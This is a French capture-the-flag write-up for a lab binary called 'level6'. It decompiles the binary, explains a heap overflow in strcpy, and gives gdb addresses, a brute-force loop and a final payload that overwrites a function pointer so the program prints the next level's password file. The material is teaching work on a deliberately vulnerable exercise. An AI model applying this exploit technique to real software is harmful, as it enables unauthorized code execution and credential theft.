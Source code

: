 ### README - Exploitation du programme `level6`

## Introduction

Nous avons un exécutable `level6` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

### Code source décompilé

Voici le code source décompilé du programme `level6` :

```c
int n() {
  return system("/bin/cat /home/user/level7/.pass");
}

int m() {
  return puts("Nope");
}

int __cdecl main(int argc, const char **argv, const char **envp) {
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```

### Analyse de la vulnérabilité

#### Fonction `strcpy`

La fonction `strcpy` copie une chaîne de caractères d'une source vers une destination sans vérifier la taille de la destination. Si la source est plus grande que la destination, cela provoque un débordement de tampon, écrasant la mémoire adjacente. Cela peut être exploité pour rediriger le flux d'exécution du programme.

#### Fonctionnement du code

1. **Allocation mémoire** :
   - `v5` reçoit 64 octets avec `malloc(0x40u)`.
   - `v4` reçoit 4 octets avec `malloc(4u)` et est initialisé pour pointer vers la fonction `m`.

2. **Copie de la chaîne utilisateur** :
   - `strcpy(v5, argv[1])` copie l'argument de la ligne de commande dans `v5`.
   - Si l'argument est suffisamment long, il peut écraser la mémoire adjacente, y compris `v4`.

3. **Appel de la fonction pointée par `v4`** :
   - `return (*v4)();` appelle la fonction pointée par `v4`. Initialement, c'est `m`, mais si nous écrasons `v4`, nous pouvons rediriger l'exécution vers `n`.

### Exploitation de la vulnérabilité

Pour exploiter cette vulnérabilité, nous devons écraser le pointeur de fonction `v4` avec l'adresse de la fonction `n`. 

### Adresse de la fonction `n`

Avec `gdb`, nous trouvons l'adresse de la fonction `n` :

```gdb
(gdb) info functions
0x08048454  n
0x08048468  m
0x0804847c  main
```

L'adresse de la fonction `n` est `0x08048454`.

### Détermination de l'index correct

Pour trouver l'index où l'écrasement se produit, nous avons utilisé une boucle pour tester différents nombres d'occurrences de l'adresse de la fonction `n` :

```bash
for i in {0..100}; do echo "Testing with $i occurrences"; ./level6 $(python -c "print '\x54\x84\x04\x08'*$i"); done
```

### Analyse des résultats

En analysant la sortie, nous avons déterminé que l'écrasement se produit après 19 occurrences de l'adresse.

### Payload final

```bash
./level6 $(python -c "print '\x54\x84\x04\x08'*19")
```

### Explication détaillée

1. **Adresse de `n` en little-endian** : `\x54\x84\x04\x08`
2. **19 occurrences** : Suffisamment de répétitions pour écraser `v4` avec l'adresse de `n`.

### Exemple complet

Voici un résumé des commandes pour trouver l'index et exploiter la vulnérabilité :

1. **Trouver l'index correct** :

```bash
for i in {0..100}; do echo "Testing with $i occurrences"; ./level6 $(python -c "print '\x54\x84\x04\x08'*$i"); done
```

2. **Exploiter la vulnérabilité** :

```bash
./level6 $(python -c "print '\x54\x84\x04\x08'*19")
```

### Conclusion

En utilisant cette méthode, nous exploitons la vulnérabilité de débordement de tampon causée par `strcpy` pour écraser le pointeur de fonction `v4` avec l'adresse de la fonction `n`. Cela redirige l'exécution vers `n`, qui exécute la commande `system("/bin/cat /home/user/level7/.pass")`, nous permettant ainsi de lire le mot de passe pour le niveau suivant.